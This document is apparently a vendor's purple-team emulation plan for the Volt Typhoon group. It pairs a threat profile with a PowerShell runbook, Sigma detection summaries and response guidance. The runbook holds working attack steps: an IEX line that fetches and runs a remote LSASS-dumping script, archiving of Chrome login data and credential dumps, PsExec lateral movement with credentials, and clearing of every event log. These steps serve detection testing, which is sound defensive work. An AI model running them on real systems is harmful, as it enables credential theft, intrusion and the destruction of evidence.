


# Volt Typhoon

## Volt Typhoon, a state-sponsored cyber group from China, poses a severe threat to critical infrastructure across the US and Five Eyes Alliance Nations!


---

### Threat Profile

**Volt Typhoon** represents a significant threat to critical infrastructure, as assessed by the Cybersecurity and Infrastructure Security Agency**(CISA)**, National Security Agency **(NSA)**, and Federal Bureau of Investigation **(FBI)**, who attribute these actions to state-sponsored cyber actors from the People’s Republic of China **(PRC)**. This campaign aims to pre-position malicious actors within IT networks, particularly targeting key sectors such as Communications, Energy, Transportation Systems, and Water and Wastewater Systems, across the United States and its territories.

Unlike conventional cyber espionage tactics, Volt Typhoon's approach focuses on disrupting or potentially **destroying critical infrastructure**, indicating a strategic intent aligned with potential geopolitical tensions or military conflicts. The group's sophisticated tactics include leveraging living off the land binaries and scripts **(LOLBAS)** techniques, utilizing **valid accounts,** and maintaining **long-term persistence** within compromised networks, with some intrusions remaining undetected for at least five years.

#### Targeted Industries:

- **Energy**
- **Government**
- **Infrastructure**
- **Transportation**
- **Water**

#### Targeted Countries:

- **Australia**
- **Canada**
- **Guam**
- **New Zealand**
- **United States**

---

### Prerequisites

- **Operating System:** Windows 10/11 or Windows Server 2016+
- **Shell:** Elevated (Administrator) PowerShell prompt
- **Network Access:** Outbound HTTPS to `live.sysinternals.com`, `github.com`, and `win-rar.com`
- **Helper Scripts:** The `scripts/` folder contains `enum_putty.ps1`, `logins.ps1`, `ping.ps1`, and `winrar_vt_installer.ps1` — copy to `$env:TEMP` or reference directly
- **Optional:** Active Directory PowerShell module (RSAT) for `logins.ps1`
- **Optional:** A second Windows host for lateral movement testing via PsExec

---

### Adversary Emulation Plan

> **Runbook:** For step-by-step execution commands, skip to the [Manual Emulation](#manual-emulation) section below. This section provides threat context for each phase.

#### Enumeration

This campaign kicks off with Discovery utilizing LOLBAS (Living off the Land Binaries and Scripts); Volt Typhoon famously relies on LOLBAS to attempt to evade detections and blend in with the native environment.  While performing discovery using LOLBAS is not unique to Volt Typhoon, there are several behaviors that are unique to them, we have identified them below:

The first novel execution is **identifying valid users via the Event Log.**  Volt Typhoon Threat Actors will query the Security Event Log for Event Code 4624 (Successful Logon), and output that to a file, user.dat.

They have also been observed querying the Security Event Log via a **"logins.ps1"** PowerShell script (see `scripts/logins.ps1`). This script retrieves a list of domain controllers from Active Directory, sets a default time frame for logon event reporting, and then searches the security logs of each domain controller for successful logon events within that time frame. It then prints out details of these events, including logon type (local or remote), date/time, status, user account, workstation, and, if applicable, the IP address of the remote connection.

> **Note:** `logins.ps1` requires the Active Directory PowerShell module (RSAT). Skip this step on standalone workstations.

Spelling mistakes have also been observed in Volt Typhoon campaigns, we have included some of them in our threat.  The misspellings can indicate that Volt Typhoon Threat Actors are likely going "interactive" with their C2 and **manually inputting commands**.  From the observed behavior, we included misspellings of "wmic" and "netstat" in our threat.

#### Credential Harvesting

Volt Typhoon Threat Actors have been observed dumping credentials via **minidump** and retrieval of **NTDS.dit**.  In this threat we showcase how a Threat Actor could download and execute minidump in order to retrieve credentials from LSASS. Once minidump has successfully dumped the LSASS process, that file is staged for exfiltration, for offline password cracking.

We will be producing another threat in the near future that will demonstrate how to retrieve NTDS.dit and crack those passwords offline.

#### Archival and Exfiltration

Volt Typhoon Threat Actors have been observed archiving the collected data for exfiltration. The collected data consists of the discovery commands we mentioned earlier; as well as **Chrome history, Chrome login data, Chrome local state, and stored putty sessions.** Notably, they have been observed renaming the WinRar executable **"rar.exe" to "ronf.exe"** in an attempt to obfuscate the executable. In our threat we accomplish this with the download and execution of `scripts/winrar_vt_installer.ps1`.

#### Lateral Movement

Volt Typhoon Threat Actors have been observed performing lateral movement with valid credentials, via **PsExec** and Remote Desktop (RDP).  We emulate this by downloading PsExec.exe from Sysinternals, and utilizing stored credentials specified as variables at the start of the runbook. Once PsExec is downloaded, we run "whoami" to verify successful login.

Valid credentials utilized by Volt Typhoon are likely cracked from NTDS.dit and minidump file performed earlier in the campaign!

#### Defense Evasion

Volt Typhoon Threat Actors have been observed **clearing Event Logs** post malicious activity, as well as having long dwell times between actions. While we may not be able to emulate months of dwell time between actions, our threat will clear Event Logs before it runs its cleanup steps.

> **Warning:** Remove this step if you need to preserve Event Logs for detection validation.

#### Cleanup

The threat is self cleaning, assuming it executes to completion. If the threat does not execute to completion, see the Cleanup commands in the Manual Emulation section, or manually delete the artifacts listed there.

---

### Steps Breakdown

#### Manual Emulation

Run all commands from an **elevated (Administrator) PowerShell** prompt on a Windows host. The helper scripts (`enum_putty.ps1`, `logins.ps1`, `ping.ps1`, `winrar_vt_installer.ps1`) are included in the `scripts/` folder alongside this document — copy them to the target or reference them directly.

> **Note:** The `logins.ps1` script requires the **Active Directory PowerShell module** (`RSAT: Active Directory Domain Services`). Skip that step if running on a standalone workstation.

**Set Variables:**

```powershell
# Replace these values with the target environment details
$RemoteIP  = "TARGET_IP"
$Username  = "DOMAIN\username"
$Password  = "password"
```

**Discovery:**

```powershell
# Query Security Event Log for successful logons (Event ID 4624)
# Expected: logon events written to user.dat
Get-EventLog Security -InstanceId 4624 | Format-List | Out-File "$env:PUBLIC\Documents\user.dat"

# Enumerate PuTTY saved sessions
Copy-Item ".\scripts\enum_putty.ps1" "$env:TEMP\enum_putty.ps1"
& "$env:TEMP\enum_putty.ps1"
# Expected: SSH config output for saved PuTTY sessions, or no output if none exist

# Query domain controller logon events (requires AD module — skip if standalone)
Copy-Item ".\scripts\logins.ps1" "$env:TEMP\logins.ps1"
& "$env:TEMP\logins.ps1"
# Expected: logon history table, or error if AD module not installed

# Process enumeration — intentional typo "wminc" replicates observed Volt Typhoon behavior
# Expected: "wminc" will FAIL with "not recognized" — this is intentional
wminc process get name,processid | Out-File "$env:PUBLIC\Documents\systeminfo.txt" -Append
# Expected: process listing written to systeminfo.txt
wmic process get name,processid | Out-File "$env:PUBLIC\Documents\systeminfo.txt" -Append

# System enumeration via CMD (full command wrapped in quotes for PowerShell compatibility)
cmd /c "quser >> %PUBLIC%\Documents\sysinfo.txt"
cmd /c "net time /dom >> %PUBLIC%\Documents\sysinfo.txt"
cmd /c "net start >> %PUBLIC%\Documents\sysinfo.txt"

# Network enumeration — intentional typo "netstta" replicates observed Volt Typhoon behavior
# Expected: "netstta" will FAIL with "not recognized" — this is intentional
cmd /c "netstta -ano >> %PUBLIC%\Documents\sysinfo.txt"
cmd /c "netstat -ano >> %PUBLIC%\Documents\sysinfo.txt"

# Ping sweep of local /24 subnet (may take several minutes for full /24)
Copy-Item ".\scripts\ping.ps1" "$env:TEMP\ping.ps1"
& "$env:TEMP\ping.ps1"
# Expected: ping results appended to sysinfo.txt
```

**Credential Harvesting:**

```powershell
# Download and execute Out-Minidump to dump LSASS (requires Administrator)
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
New-Item -Type Directory "C:\dump" -ErrorAction Ignore -Force | Out-Null
IEX (New-Object Net.WebClient).DownloadString('https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1003.001/src/Out-Minidump.ps1')
Get-Process lsass | Out-Minidump
# Expected: lsass_*.dmp file created in current directory

# Stage the dump file
Get-ChildItem -Path . -Filter lsass_*.dmp -Recurse | Move-Item -Destination "$env:PUBLIC\Documents\lsass.dmp" -Force
# Expected: lsass.dmp at $env:PUBLIC\Documents\lsass.dmp
```

**Archive & Exfil:**

```powershell
# Archive discovery and credential artifacts
$compress = @{
    Path             = "$env:PUBLIC\Documents\user.dat",
                       "$env:PUBLIC\Documents\systeminfo.txt",
                       "$env:PUBLIC\Documents\lsass.dmp",
                       "$env:PUBLIC\Documents\sysinfo.txt"
    CompressionLevel = "Fastest"
    DestinationPath  = "$env:USERPROFILE\Downloads\info.zip"
}
Compress-Archive @compress
# Expected: info.zip created in Downloads folder

# Install WinRAR and rename to ronf.exe (observed Volt Typhoon obfuscation)
# The winrar_vt_installer.ps1 script is included in scripts/ — it downloads WinRAR,
# installs silently, renames rar.exe to ronf.exe, and archives systeminfo.txt
Copy-Item ".\scripts\winrar_vt_installer.ps1" "$env:TEMP\winrar_vt_installer.ps1"
& "$env:TEMP\winrar_vt_installer.ps1"
# Expected: ronf.exe in C:\Program Files\WinRAR\ and info_sys.zip in $env:TEMP

# Archive Chrome browser data
$compress = @{
    Path             = "$env:LOCALAPPDATA\Google\Chrome\User Data\default\History",
                       "$env:LOCALAPPDATA\Google\Chrome\User Data\Local State",
                       "$env:LOCALAPPDATA\Google\Chrome\User Data\default\Login Data*"
    CompressionLevel = "Fastest"
    DestinationPath  = "$env:USERPROFILE\Downloads\History.zip"
}
Compress-Archive @compress

# Exfiltration: In a real scenario, the attacker transfers these archives out.
# For this exercise, verify the files were created:
Get-Item "$env:USERPROFILE\Downloads\info.zip", "$env:USERPROFILE\Downloads\History.zip"
```

**Lateral Movement:**

```powershell
# Download PsExec from Sysinternals
Invoke-WebRequest -Uri "https://live.sysinternals.com/PsExec.exe" -OutFile "$env:PUBLIC\PsExec.exe"

# Execute whoami on the remote target using harvested credentials
& "$env:PUBLIC\PsExec.exe" "\\$RemoteIP" -u $Username -p $Password -d whoami -accepteula
# Expected: returns the username or "nt authority\system" from the remote host
```

**Defense Evasion:**

> **Warning:** This step clears all Windows Event Logs. Remove this step if you need to preserve logs for detection validation.

```powershell
$logs = Get-EventLog -List | ForEach-Object { $_.Log }
$logs | ForEach-Object { Clear-EventLog -LogName $_ }
Get-EventLog -List
# Expected: all logs show 0 entries after clearing
```

**Cleanup:**

```powershell
$itemsToDelete = @(
    "$env:USERPROFILE\Downloads\History.zip",
    "$env:PUBLIC\Documents\user.dat",
    "$env:PUBLIC\Documents\sysinfo.txt",
    "$env:PUBLIC\Documents\systeminfo.txt",
    "$env:PUBLIC\PsExec.exe",
    "$env:USERPROFILE\Downloads\info.zip",
    "$env:TEMP\info_sys.zip",
    "$env:PUBLIC\Documents\lsass.dmp",
    "$env:TEMP\logins.ps1",
    "$env:TEMP\ping.ps1",
    "$env:TEMP\enum_putty.ps1",
    "$env:TEMP\winrar_vt_installer.ps1",
    "$env:TEMP\WinRARInstaller.exe"
)
Remove-Item -Path $itemsToDelete -Force -ErrorAction SilentlyContinue

# Remove WinRAR installation
Remove-Item "$env:PROGRAMFILES\WinRAR" -Recurse -Force -ErrorAction SilentlyContinue

# Remove dump directory
Remove-Item "C:\dump" -Recurse -Force -ErrorAction SilentlyContinue
```

---

### ATT&CK Flow



> **Caption:** Volt Typhoon Threat Attack Flow Map

---

### Detections

#### Sigma:

- **Suspicious Archive Creation**

Detects suspicious archive creation by uncommon processes, excluding common archive utilities like 7zip and Windows Explorer.
Adversaries may use this technique to package and compress stolen data for exfiltration or to hide malicious files within archives.
- **Event Log Clearing**

Detects usage of known PowerShell cmdlets to clear the Windows event logs.
Adversaries may use this technique to cover their tracks and erase evidence of malicious activities from the event logs.

- **Suspicious LOLBAS Discovery Commands**

Detects suspicious discovery LOLBAS (Living Off the Land Binaries and Scripts) commands. This search can lead to false positives, so it's recommended to filter out known good or trusted images.
Adversaries may use LOLBAS commands to perform reconnaissance, gather information about the system, or execute malicious activities while blending in with legitimate processes.
- **Suspicious CMD / POSH Parent**

Detects Command Prompt or PowerShell as a child process of an Image not in System32, or Program Files.
Adversaries may use this technique to execute commands from unconventional locations, potentially indicating malicious activity.
- **PsExec Execution**

Detects user accept agreement execution in PsExec command line.
Adversaries may use PsExec to execute commands remotely on compromised systems. Detecting its execution can indicate unauthorized access or lateral movement attempts within the network.



> **Caption:** Converted Detections (Sigma Rules) in Splunk

#### STIX:

- **Malware Analysis**
- **IPv4 Addresses**
- **Indicators**
- **File Hashes**

---

### Respond

If Volt Typhoon actions are detected in the environment, the response team should determine the depth of the Kill Chain, collect artifacts, and answer the following questions:

- Was the installation successful?

What are the persistent mechanisms?
- Is Command & Control (C2) successful?
- Are there observations of Actions on Objectives (AOO)?

If so, what are they?
- What was the infection vector?

How was it delivered?
What exploitation led to installation?

Once it has been determined how deep the intrusion goes, containment, eradication, and recovery should begin.  After recovery, lessons learned should drive additional courses of action (COAs) to thwart the threat should it return, such as implementing additional security controls. As always, please follow your organization's response plan and evidence retention policies. We also recommend leveraging NIST SP 800-61 Rev. 2.

---

#### References

- https://www.cisa.gov/news-events/cybersecurity-advisories/aa24-038a

---

#### About SCYTHE

SCYTHE provides an advanced attack emulation platform for the enterprise and cybersecurity consulting market. The SCYTHE platform enables Red, Blue, and Purple teams to build and emulate real-world adversarial campaigns in a matter of minutes. Customers are in turn enabled to validate the risk posture and exposure of their business and employees and the performance of enterprise security teams and existing security solutions. Based in Miami, FL, the company is privately held and is funded by Gula Tech Adventures, Paladin Capital, Evolution Equity, and private industry investors.

---

